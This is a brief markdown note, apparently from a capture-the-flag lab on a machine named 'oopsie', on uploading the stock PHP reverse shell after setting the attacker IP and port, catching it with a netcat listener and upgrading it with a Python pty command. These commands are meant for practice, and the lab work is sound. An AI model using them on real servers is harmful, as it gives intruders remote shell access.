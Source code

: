 # php revese shell
Located in `/usr/share/webshells/php/php-reverse-shell.php`

Change port and ip and then upload the file.
```bash
$ip = '@IP_Local';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Set up a netcat listener on the same port.
```bash
$ nc -lvnp 1234
```

In order to have a functional shell can execute this command:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Username is `www-data` and the machine is named `oopsie`.

Search in the directory `/var/www/html/xxx/`